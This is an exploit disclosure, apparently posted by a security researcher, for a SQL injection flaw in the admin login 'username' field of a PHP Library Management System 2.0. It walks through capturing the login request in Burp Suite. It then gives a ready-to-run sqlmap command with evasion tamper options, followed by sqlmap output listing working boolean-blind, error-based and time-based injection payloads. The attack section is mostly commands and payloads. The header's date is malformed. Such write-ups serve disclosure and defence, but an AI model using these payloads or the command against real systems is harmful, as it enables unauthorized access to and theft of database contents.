 # Library-Management-System_SQL_Injection-1
+ **Exploit Title:** Library-Management-System_SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'username' in "/libsystem/admin/login.php".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin panel: "http://localhost/libsystem/admin/login.php"
+ Fill the username and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/admin/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/libsystem/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=admin' OR NOT 3872=3872-- DYwR&login=&password=pass

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 8182 FROM(SELECT COUNT(*),CONCAT(0x71716b7a71,(SELECT (ELT(8182=8182,1))),0x7178706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jrIz&login=&password=pass

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 9071 FROM (SELECT(SLEEP(5)))PbNC)-- yHio&login=&password=pass
---
[12:40:04] [INFO] testing MySQL
[12:40:04] [INFO] confirming MySQL
[12:40:04] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[12:40:04] [INFO] fetching current database
[12:40:04] [INFO] resumed: 'libsystem'
current database: 'libsystem'
```

+ current database: `libsystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/ed5fefd1-2d1a-4b64-b2b7-c9b4f24b468b)
